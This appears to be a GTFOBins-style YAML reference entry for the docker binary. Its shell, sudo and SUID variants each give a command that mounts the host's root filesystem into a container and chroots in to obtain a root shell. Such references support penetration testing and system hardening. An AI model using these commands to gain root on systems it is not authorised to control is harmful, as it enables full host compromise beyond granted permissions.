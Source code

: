 ```yaml
---
description: |
  This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.
functions:
  shell:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  sudo:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  suid:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
---
```

